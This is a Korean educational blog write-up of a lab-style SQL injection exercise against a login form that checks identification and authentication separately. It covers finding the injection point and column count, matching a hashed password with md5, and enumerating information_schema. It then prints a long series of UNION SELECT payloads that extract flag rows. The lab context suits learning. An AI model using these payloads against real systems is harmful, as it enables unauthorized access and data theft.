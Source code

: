 ```yaml
---
layout: single
title:  "7 주차 SQL injection 데이터 추출 문제 풀이(5)"
categories: SQL-injection
typora-root-url: ..\
author_profile: false
---
```


<br>

# <span style="background:#000000; color:#ffffff">1. 7 주차 SQL injection 데이터 추출 문제 풀이(5)</span>

<br><span style='font-weight:bold; font-size:15px'> ※ 주의 사항 :</span>   

<span style='font-weight:bold; font-size:15px'>1. 교육 목적으로만 이용 해주세요.</span><br>
<span style='font-weight:bold; font-size:15px'>2. 무단 침입, 데이터 유출, 개인 정보 침해 등 불법적인 활동은 심각한 법적 결과를 초래할 수 있습니다.</span><br>
<span style='font-weight:bold; font-size:15px'>3.  개인적인 테스트 환경을 구축해서 실습하시길 바랍니다. </span>



## <span style="background:#696969; color:#ffffff">1.1   SQL injection</span>

<br>

3번 풀이와 같다

<img src="/images/2024-06-05-SQLinjection22/image-20240605064924315.png" alt="image-20240605064924315" style="zoom:67%;" />



<img src="/images/2024-06-05-SQLinjection22/image-20240605052309872.png" alt="image-20240605052309872" style="zoom:67%;" />

normatitc 아이디로 로그인이 되는 지 확인하였다.  
그리고 user name 에 대한 정보가 추출된다.(DB정보)

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.1 sql injection 포인트 찾기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection22/image-20240605052418035.png" alt="image-20240605052418035" style="zoom:67%;" />

▶ 해당 로그인 폼에 sql 구문이 적용되는 지 확인하였다.

<img src="/images/2024-06-05-SQLinjection22/image-20240605052546843.png" alt="image-20240605052546843" style="zoom:67%;" />

▶ 식별 /인증 이 동시인가, 분리인가 확인하기 위해 작성했다.   
or 이 로그인이 안되는 것으로 보아 분리일 확률이 높다.

<img src="/images/2024-06-05-SQLinjection22/image-20240605052653941.png" alt="image-20240605052653941" style="zoom:67%;" />

▶ 확실히 하기 위해 비밀 번호가 sql 구문이 적용되는 지 살펴보았다. 로그인이 되지 않으므로   
분리가 확실해 졌다.  왜냐하면 동시라면 둘 다 sql 구문이 적용되어야 하기 때문이다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.2 column 개수 찾기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection22/image-20240605052732705.png" alt="image-20240605052732705" style="zoom:67%;" />

order by 1부터 순차적으로 작성해 본 결과, order by 3 이후로는 로그인이 되지 않는다.   
따라서 칼럼 개수는 2 개라는 사실을 알 수 있다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.3 출력되는 column 위치 찾기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection22/image-20240605052926457.png" alt="image-20240605052926457" style="zoom:67%;" />

<img src="/images/2024-06-05-SQLinjection22/image-20240605052944301.png" alt="image-20240605052944301" style="zoom:67%;" />

로그인을 시도 해본 결과, 로그인이 되지 않는다. 

<img src="/images/2024-06-05-SQLinjection22/image-20240605053007133.png" alt="image-20240605053007133" style="zoom:67%;" />

그렇다는 것은 비밀 번호 값이 다른 것으로 저장 되어 있어서 일치하지 않는다는 사실을 알 수 있다.  
따라서 비밀 번호는 해쉬 처리 해야 한다. 둘 중 어떤 것이 비밀 번호 칼럼 인지 아직 모르므로, 하나 씩 적용해 본다.   
위의 이미지처럼 앞의 칼럼이 비밀 번호이고, 뒤의 칼럼이 아이디 칼럼이다.

그러므로 데이터를 추출 하기 위해서는 아이디 칼럼에 데이터를 추출해야 로그인해서 데이터를 확인할 수 있다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.4 DB이름 확인하기</span>

------



<img src="/images/2024-06-05-SQLinjection22/image-20240605053152557.png" alt="image-20240605053152557" style="zoom: 67%;" />

<img src="/images/2024-06-05-SQLinjection22/image-20240605065150912.png" alt="image-20240605065150912" style="zoom:67%;" />

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.5 table이름 확인하기</span>

------

<br>



<img src="/images/2024-06-05-SQLinjection22/image-20240605065228039.png" alt="image-20240605065228039" style="zoom:67%;" />

' union select md5(1),(select table_name from information_schema.tables where table_schema = 'sqli_2_2' limit 0,1) #

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.6 column 이름 확인하기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection22/image-20240605065331815.png" alt="image-20240605065331815" style="zoom:67%;" />

' union select md5(1),(select column_name from information_schema.columns where table_name = 'flagTable_this' limit 0,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605065410902.png" alt="image-20240605065410902" style="zoom:67%;" />

' union select md5(1),(select column_name from information_schema.columns where table_name = 'flagTable_this' limit 1,1) #



<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.7 data 추출하기</span>

------



<img src="/images/2024-06-05-SQLinjection22/image-20240605065538549.png" alt="image-20240605065538549" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 0,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605065625582.png" alt="image-20240605065625582" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 1,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605065649664.png" alt="image-20240605065649664" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 2,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605065705009.png" alt="image-20240605065705009" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 3,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605065725938.png" alt="image-20240605065725938" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 4,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605065742611.png" alt="image-20240605065742611" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 5,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605065758044.png" alt="image-20240605065758044" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 6,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605065831839.png" alt="image-20240605065831839" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 7,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605065853162.png" alt="image-20240605065853162" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 8,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605065914620.png" alt="image-20240605065914620" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 9,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605065933454.png" alt="image-20240605065933454" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 10,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605070004499.png" alt="image-20240605070004499" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 11,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605070035995.png" alt="image-20240605070035995" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 12,1) #

<img src="/images/2024-06-05-SQLinjection22/image-20240605070051921.png" alt="image-20240605070051921" style="zoom:67%;" />

' union select md5(1),(select flag from flagTable_this limit 13,1) #



